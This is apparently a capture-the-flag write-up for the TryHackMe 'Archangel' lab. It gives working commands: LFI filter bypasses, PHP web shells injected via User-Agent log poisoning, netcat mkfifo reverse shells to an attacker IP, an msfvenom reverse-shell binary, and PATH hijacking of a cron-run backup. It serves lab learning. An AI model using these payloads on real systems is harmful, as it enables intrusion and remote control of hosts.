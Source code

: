 # 30. Arch angel 🧭
Names | Details
--------|-----
Source | Tryhackme
Level | easy
Os | linux

**Notes :**

#other/richInfo 


## Gaining Access 😉
- directory bruteforce using common.txt
- found a domain on website. help@domail.com : added to etc hosts and found a flag
- bruteforce on mafialive.thm
- lfi can be disclouse source code [[#Important commands 🔥]]1
- poisoned user-agent by changing user-agent value on http request [[#Important commands 🔥]] 2



## Maintaining Access 🥷
- checked crontab `cat /etc/crontab`
- scheduled process in every minute which execute opt/shell [[#Important commands 🔥]] 3
- logged in as archangel
- After running it and checking it out with strings I notice that the cp command is run without the full path annotation. This is exploitable [[#Important commands 🔥]] 4
- exported path
- executed ./backup


## Important commands 🔥
1. lfi source code disclouse and filter bypass
	```php
	php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

	//////..///////..////..//////..///////..////..//////..///////..////..//////..///////..////..//////etc/passwd
	```
2. poisoning user-agent
	```php
	<?php system($_GET[‘shell’]); ?>
	<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
	GET /test.php?view=/var/www/html/development_testing/.././.././../log/apache2/access.log&cmd=rm+%2ftmp%2ff%3bmkfifo+%2ftmp%2ff%3bcat+%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.9.229.254+2222+%3e%2ftmp%2ff
	```
	3. crontab
	```
	echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.229.254 80 >/tmp/f" >> /opt/helloworld.sh
	```
4. msfvenom
	```
	msfvenom -p linux/x64/shell_reverse_tcp -f elf -o cp LHOST=10.9.229.254 LPORT=8090
	
	export PATH=/opt/backupfiles:$PATH
	```
## Post Exploitation ✴️
- from domain
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- if they filtering `../..` this, try this `/.././.././../` : php lfi filter bypass
- lfi to rce


--------------------------------
**By Nibras Muhammed** 🤓🖥️






